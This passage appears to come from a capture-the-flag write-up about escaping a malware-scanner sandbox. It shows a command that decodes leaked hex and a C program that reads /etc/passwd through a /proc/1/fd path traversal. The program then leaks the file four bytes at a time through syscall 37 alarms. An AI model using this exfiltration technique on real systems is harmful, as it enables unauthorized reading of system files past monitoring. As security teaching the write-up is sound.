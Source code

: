 [![015_MalScanner_syscall_alarm](/img/scanned/015_MalScanner_syscall_alarm.png)](/img/scanned/015_MalScanner_syscall_alarm.png)

Converting the hex back to ascii we see our exfiltration technique is working and we are getting back the string `tset`. The order here is reversed because it is a little endian system.

```
$ echo -n '74736574' | xxd -r -p
tset
```

Since we got exfiltration working we can next try to exfiltrate an actual file. Because we are running under the uid of 1001 we first choose a world readable one which also gives more information about the system like `/etc/passwd`

`exfil_passwd.c`

```c
#include "unistd.h"
#include "fcntl.h"


int main (int argc, char *argv[])
{
  char buf[0x8];
  int fd = open("/proc/1/fd/3/../../../../../../etc/passwd", O_RDONLY);
  while(read(fd, buf, 0x4) != 0)
  {
    unsigned int val = 0;
    val = *((unsigned int*)(&buf[0]));
    syscall(37,val);
  }
  close(fd);
  return 0;
}
```
